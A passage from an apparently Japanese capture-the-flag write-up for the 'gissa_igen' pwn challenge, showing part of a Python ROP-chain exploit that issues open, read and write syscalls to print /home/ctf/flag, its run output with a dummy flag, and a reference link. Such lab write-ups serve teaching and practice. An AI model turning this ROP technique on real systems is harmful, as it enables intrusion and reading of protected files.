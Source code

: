 ```python

payload += p64(rop_pop_rdx_r9_r8_rdi_rsi)
payload += p64(0)                    # mode
payload += b'A' * (8 * 4)
payload += p64(rop_pop_rax_rdi_rsi)
payload += p64(0x40000002)           # SYS_open
payload += p64(proc_base + 0x202000) # filename
payload += p64(0b1000)               # flags (O_RDONlY | O_TExT)
payload += p64(rop_syscall)          # syscall; ret;

payload += p64(rop_pop_rdx_r9_r8_rdi_rsi)
payload += p64(0x100)                # count
payload += b'A' * (8 * 4)
payload += p64(rop_pop_rax_rdi_rsi)
payload += p64(0)                    # SYS_read
payload += p64(3)                    # fd = 3 maybe?
payload += p64(proc_base + 0x202000) # buf
payload += p64(rop_syscall)          # syscall; ret;

payload += p64(rop_pop_rdx_r9_r8_rdi_rsi)
payload += p64(0x100)                # count
payload += b'A' * (8 * 4)
payload += p64(rop_pop_rax_rdi_rsi)
payload += p64(1)                    # SYS_write
payload += p64(1)                    # stdout
payload += p64(proc_base + 0x202000) # buf
payload += p64(rop_syscall)          # syscall; ret;

_ = input()
sock.recvuntil(": ")
sock.sendline(payload)

sock.send(b"/home/ctf/flag\x00")

sock.interactive()
```

できたー。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=20642)

[ptrlib] proc base = 0x55f610bdb000

[ptrlib]$ try again.
flag (16810325/3): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAï¾­ÞAAAAAAAAAAAAAAAAAAAAAAAA¼½öU is not right.
FLAG{123}
flag[-] Process './gissa_igen' stopped with exit code -11 (PID=20642)
```

# 感想
ひと工夫必要で面白かったです。

# 参考文献
[1] [https://kileak.github.io/ctf/2019/midnight-gissa2/](https://kileak.github.io/ctf/2019/midnight-gissa2/)